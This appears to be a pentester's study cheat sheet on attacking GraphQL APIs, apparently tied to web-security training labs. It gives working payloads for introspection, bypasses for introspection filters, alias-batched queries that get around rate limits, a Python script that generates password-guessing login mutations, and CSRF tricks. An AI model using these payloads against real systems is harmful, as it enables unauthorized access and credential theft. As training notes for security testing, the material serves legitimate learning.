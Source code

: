 ### GraphQL

**Finding GraphQL Endpoints:**
- Universal query - `query{__typename}`
- Common endpoints:
  - `/graphql`, `/api`, `/api/graphql`, `/graphql/api`, `graphql/graphql`
  - All of the above with `v1` or `v2` in the path start/end
  - If no endpoints pop up, try using alternative HTTP methods (non-POST) with the universal query

**Exploiting Unsanitized Arguments:**
- Think common web vulns here
- Example:
  - Pretend query is `query {products {id name listed}}`
  - If this returns products 1, 2, and 4, we can try to IDOR product 3 with 
    - `query {products(id: 3) {id name listed}}`

**Discovering Schema Information:**
- Suggestions
  - Apollo GraphQL will suggest amendments when errors occur, like `There is no entry for 'productInfo'. Did you mean 'productInformation' instead?`
  - These can be used to glean information about the schema
  - **Clairvoyance** uses suggestions to recover the schema
- Introspection queries
  - Built-in function that allows querying schema information
    - `query{__schema}`
    - `{"query": "{__schema{queryType{name}}}"}`
  - Description fields can sometimes have sensitive info
  - Introspection query can be sent via **{right click} > GraphQL > Set introspection query**
    - Can return lots of information, so right click the response and `Save GraphQL queries to site map` 
    - Can use online visualizers, but it didn't show a mutation query
      - http://nathanrandal.com/graphql-visualizer/ (don't use on sensitive data, run visualizer locally)
- Mutation queries
  - Will have `variables` parameter where input is specified

**Bypassing Introspection Defenses:**
- Sometimes, introspection queries won't run due to being disabled
- Developers sometimes disable introspection by excluding `__schema{` keyword
  - Flawed regex can be defeated by adding spaces/new lines/comments after `__schema` (which are ignored by GraphQL)
- Introspection may sometimes only be disabled over POST, so try GET requests or POST requests with content-type of `x-www-form-urlencoded` 
  - `?query=query%7B__schema%7BqueryType%7Bname%7D%7D%7D`
  - `%0A` for a newline

**Bypassing Rate Limiting:**
- Many endpoints will have a rate limiter in place, and will often be based on the number of HTTP requests received (as opposed to the number of operations performed)
  - Network level instead of application level
- This means that we can do a massive brute force of one object/query in a single request using aliases:
```
query isValidDiscount($code: Int) {
    isvalidDiscount(code:$code){
        valid
    }
    isValidDiscount2:isValidDiscount(code:$code){
        valid
    }
    isValidDiscount3:isValidDiscount(code:$code){
        valid
    }
}
```
- Python script to generate JSON-friendly aliases given a file with a list of words (brute forcing usernames example):
```
import json
with open("wordlist.txt") as f:
    passwords = [line.strip() for line in f]
mutations = "\n".join(
    f'bruteforce{i}: login(input: {{username: "carlos", password: "{pw}"}}) {{ token success }}'
    for i, pw in enumerate(passwords)
)

graphql_query = {
    "query": f"mutation {{\n{mutations}\n}}"
}

print(json.dumps(graphql_query, indent=2))
```

**GraphQL CSRF:**
- Arise when GraphQL endpoints don't validate content type of requests and CSRF tokens not implemented
  - POST requests with content type of `application/json` are secure as long as content type is validated
- Can use GET requests or requests with `x-www-form-urlencoded`, since they can be sent by a browser
  - Either way, need to format it in a URL encoded parameter format (with `=` and `&`)
    - Make sure that `{`, `}`, and `:` (along with other special chars) are URL encoded

